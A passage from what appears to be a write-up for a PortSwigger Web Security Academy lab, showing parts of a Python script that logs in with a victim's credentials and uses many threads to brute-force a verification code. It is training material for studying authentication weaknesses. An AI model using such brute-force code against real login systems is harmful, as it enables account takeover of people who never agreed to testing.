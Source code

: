     thread_list = []
    solved_flag = False # flag to check code found, and no further request send
    ```
         
  - **User inputs:** When the program executes, it takes 3 inputs from the user.

    ```        
    if __name__ == "__main__":
        # User input: Lab URL, username, and password
        k_url = input("Enter Lab URL: ").strip().rstrip("/")
        username = input("Enter Account Username: ").strip()
        password = input("Enter Account Password: ").strip()

        if (not (k_url and username and password)):
            print()
            print("[-] Error! Input variable(s) missing.")
            print("[-] Lab URL: https://a...........c2.web-security-academy.net")
            print("[-] Username")
            print("[-] Password")
            sys.exit()
        else:
            main()
    ```      
      - Enter Lab URL: Get lab URL from your browser address bar and paste it.
      - Victim's credentials already mentioned on the Lab page, copy/paste username and password.
    

  - **Main Function:** After giving the required inputs the main() function is called.

    ```        
    def main():
      global solved_flag
    
      print()
      print("[*] Processing...")

      start_t = time()

      # initial request
      sn_init = requests.Session()
      csrf = send_login_req(sn_init)

      # start 1 range at a time, and check the solved flag
      for i in range(10):
          for j in range(10):
              t = threading.Thread(target=brute_force_code, name="p-%d-%d" %(i,j), args=(i, j))
              t.start()
              thread_list.append(t)

          for tj in thread_list:
              tj.join()       
